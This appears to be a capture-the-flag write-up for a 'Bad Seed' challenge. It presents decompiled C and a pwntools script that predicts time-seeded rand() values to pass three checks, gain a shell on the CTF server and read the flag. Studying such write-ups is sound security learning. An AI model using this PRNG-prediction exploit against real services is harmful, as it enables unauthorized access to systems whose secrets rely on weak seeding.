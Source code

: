 # Bad Seed

## Challenge
We are given a binary and an ascii text which introduces pwntools

To get shell, we need to answer 3 questions correctly.

The first question:
```c
void question_one(void)

{
  long in_FS_OFFSET;
  double dVar1;
  int local_24;
  float local_20;
  int local_1c;
  int local_18;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_20 = 6.035077;
  local_1c = 4000;
  local_24 = 0;
  local_18 = 0;
  dVar1 = floor(6.035077095031738);
  local_14 = (int)dVar1;
  local_18 = (int)((float)local_1c / local_20);
  puts("how heavy is an asian elephant on the moon?");
  __isoc99_scanf(&DAT_00402034,&local_24);
  if (local_18 != local_24) {
    puts("wrong bye bye");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("\ngreat 2nd question:");
  puts("give me the rand() value");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

So, the answer to question 1 is 662 since (int)(4000 / 6.035077) = 662

For question 2:
```c
void question_two(void)

{
  long in_FS_OFFSET;
  int local_24;
  int local_20;
  int local_1c;
  time_t local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_18 = time((time_t *)0x0);
  __isoc99_scanf(&DAT_00402034,&local_24);
  srand((uint)local_18);
  local_20 = rand();
  local_1c = rand();
  if (local_1c != local_24) {
    puts("wrong bye bye");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("great 3rd question:");
  puts("no hint this time... you can do it?!");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

and question 3:
```c
void question_three(void)

{
  long in_FS_OFFSET;
  int local_2c;
  uint local_28;
  int local_24;
  int local_20;
  int local_1c;
  time_t local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_18 = time((time_t *)0x0);
  srand((uint)local_18);
  local_28 = rand();
  srand(local_28);
  local_24 = rand();
  local_20 = (int)local_28 / local_24;
  local_1c = local_20 % 1000;
  __isoc99_scanf(&DAT_00402034,&local_2c);
  if (local_1c != local_2c) {
    puts("wrong bye bye");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("great heres your shell");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Both of these questions uses the current time as the seed to `rand()`. We will use pwntools to obtain the current time and use it as the seed to `rand()`. In this way, we will get the same output of `rand()` as the server.

POC:
```python
from pwn import *
import ctypes

r = remote('ctf.k3rn3l4rmy.com', 2200)

# Question 1
r.sendlineafter(b'on the moon?', b'662')

# Question 2
r.recvuntil(b'me the rand() value')
libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libm.so.6')
libc.srand(libc.time())
libc.rand()
num = libc.rand()
r.sendline(str(num).encode())

# Question 3
r.recvuntil(b'you can do it?!')
libc.srand(libc.time())
local_28 = libc.rand()
libc.srand(local_28)
local_24 = libc.rand()
num = (local_28//local_24) % 1000
r.sendline(str(num).encode())


r.interactive()
```

The output:
```bash
$ python3 pwn1.py 
[+] Opening connection to ctf.k3rn3l4rmy.com on port 2200: Done
[*] Switching to interactive mode

great heres your shell
$ ls
flag.txt
run
$ cat flag.txt
flag{i_0_w1th_pwn70ols_i5_3a5y}
```

Flag: `flag{i_0_w1th_pwn70ols_i5_3a5y}`
